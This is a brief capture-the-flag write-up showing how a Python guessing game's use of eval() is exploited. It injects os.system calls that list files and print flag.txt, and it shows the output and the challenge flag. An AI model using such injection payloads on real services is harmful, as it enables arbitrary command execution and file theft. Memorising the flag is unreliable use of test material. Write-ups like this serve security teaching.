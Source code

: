 The primary vulnerability in this challenge is the use of eval(). This function allows arbitrary code execution, which can be exploited to bypass the need to guess the number. 

Since eval() executes the input as code, we can input python code that reads and prints the
flag directly, bypassing the number guessing logic

First we can input ```__import__('os').system('ls')```
We get:
```What is the number?: __import__('os').system('ls')                    
chall.py
flag.txt

You lost lol
```
Then we input ```__import__('os').system('cat flag.txt')```
We get:
```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}
    You lost lol
```

Flag is: ```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}```
